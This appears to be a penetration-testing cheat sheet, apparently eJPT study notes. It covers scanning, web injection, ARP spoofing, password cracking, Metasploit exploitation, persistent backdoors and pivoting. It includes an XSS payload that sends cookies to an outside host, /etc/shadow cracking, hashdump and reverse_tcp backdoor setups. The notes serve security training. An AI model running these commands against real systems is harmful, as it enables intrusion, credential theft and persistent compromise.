

Methadology

# Overall
1. Scan for Network
2. Scan for Services
3. Run tests on all possible services
4. Password Crack/ARP Spoof if needed
5. Pivot

# Scanning

`whois <site_url>`

Network
```
fping -a -g <IP Range>
nmap -sn <ip>/<CIDR notation>
```

Port Scanning
```
nmap -sV -A -p1-65535 <IP Addresses>
nmap -sT <IP Addresses> # TCP Scan (Fast)
nmap -sS <IP Addresses> # Stealth Scan
```

Vulnerability scanner
Use Nessus
```
nikto -h <url>
```

# Services

Wordlists are usually in `/usr/share/wordlists/`

Service | Commands
--|--
SSH (22) | `ssh <user>@<ip> -p <port>` <br> Download files: `scp <user>@<ip>:<path_to_file> <local_directory>`
Telnet | `telnet <IP>`
Web (80/443): HTTP|Look through the website<br>`gobuster dir -u http://<ip> -w <wordlist> -x html,php,js`<br> ` dirb http://10.10.10.2/ /usr/share/wordlists/dirb/common.txt`
Web (80/443): XSS | Test every injection point for `<script>alert(1);</script>`, like input boxes, GET/POST request parameters <br> When done, can send cookies back to box by `<script>var i = new Image();i.src = "http://192.168.99.11/get.php?"+document.cookie;</script>`
Web: SQL |  Test the fields using `' UNION SELECT user(); -- -` or other payloads <br> Then `sqlmap -u <url> (-p <injection_parameter>) (--tables /--dump)`
Samba | Exploit Null Session:`enum4linux -A <ip>`<br> Connect: `smbclient //<ip>/<share> -U <user> -P <password>` , https://superuser.com/questions/856617/how-do-i-recursively-download-a-directory-using-smbclient/856640
MySQL | Connect using `mysql -u<username> -p<password> -h <ip_address>` <br> `show databases;use <database>;show tables;...`


Other Things
1. Google Hacking

## ARP Spoofing
```
echo 1 > /proc/sys/net/ipv4/ip_forward # So once traffic reaches us, proceeds to the vicitm

arpspoof -i tap0 -t 10.10.10.2 -r 10.10.10.6
```

After that use Wireshark to hack
* Select VPN Network Interface
* Follow TCP Stream
* View data

# Exploit

## Password Cracking
```
hydra -L <users> -P <passwords.txt> <ip> <service eg. ssh>
```
eg. `hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt`

Example services: ssh, mssql
/usr/share/ncrack/minimal.usr
### Linux Passwords

password file from `/etc/passwd`, shadow file from `/etc/shadow`
```
unshadow <password_file> <shadow_file> > <output_file>
john <password_hash/hash_list>
john -wordlist /path/to/wordlist -users=users.txt hashfile
```

### Windows Passwords
ophcrack

## Metasploit
1. Use Nessus to get a scan
	1. Google all services and Find related Issues
2. Metasploit `msfconsole`
	```
	search <keyword>
	use <module>
	show options
	set VAR <value>
	exploit
	```
3. Meterpreter
	```
	 background
	 session -l # Lists your open sessions
	 sessions -i 3 # Interact with/ open/ enter session 3
	 getsystem # PrivEsc for Windows
	 sysinfo, ifconfig, route, getuid # Internal Enumeration
	 search -f file.txt
	 download thisFile.txt /in/my/directory/here # Also has upload
	 hashdump # Dumps Windows SAM password hashes  
	 shell
	```
    1. If cannot bypass UAC for PrivEsc, use `exploit/windows/local/bypassuac` module, which only needs the meterpreter session
    2. VPN have to be connectged in VM to use VM's metasploit to exploit
4. Persistence
	1.	Windows Vista and Above
	```
	# persistent backdoor - need meterpreter session
	msf > use exploit/windows/local/s4u_persistence
	msf (s4u_persistence) > set session 2
	#session => 2
	msf (s4u_persistence) > set trigger logon
	#trigger => logon
	msf (s4u_persistence) > set payload windows/meterpreter/reverse_tcp
	msf (s4u_persistence) > set lhost 1.2.3.4
	msf (s4u_persistence) > set lport 1234
	msf (s4u_persistence) > exploit
	```
	2. Others
	```
	use exploit/windows/local/persistence
	set reg_name backdoor
	set exe_name backdoor
	set startup SYSTEM
	set session 1
	set payload windows/meterpreter/reverse_tcp
	set exitfunc process
	set lhost 192.168.99.100
	set lport 5555
	set DisablePayloadHandler false
	exploit //if the backdoor doesn't start immediately, use "exploit -j" instead
	```
	3. Connecting to backdoor
	```
	msf (s4u_persistence) > use exploit/multi/handler
	msf (handler) > set payload windows/meterpreter/reverse_tcp
	msf (handler) > exploit
	# once victim restarts and logons, we will get a meterpreter shell
	```
	
	
	Upgrading regular tcp shell to meterpreter
	```
	use exploit/multi/handler
	...
	run
	<Escalate to root privileges>
	^Z
	sessions -u <Session_ID>
	sessions -i <new session>
	```
	
# Pivoting
Connecting to other network

`ip route add {CONNECT TO THIS NETWORK} via {FROM THIS IP}`
* `ip route add 10.10.10.0/8 via 10.10.10.99`

Use metasploit
```
portfwd add -l 8022 -p 22 -r 172.16.37.1
```

# Other Resources

When Stuck
1. Enumerate Harder & Everything

eJPT Notes
https://github.com/hunterluker/eJPT-notes/blob/master/pages/networking.md
https://github.com/osV22/ejpt_notes
https://refabr1k.gitbook.io/oscp/elearnsecurity-ejpt/untitled

Other Notes
https://docs.google.com/document/d/1eOHgb41bx2c0vzEyQKsFVulM22J37d9Pn98xAJOzzcc/edit#
https://www.tutorialspoint.com/metasploit/metasploit_pivoting.htm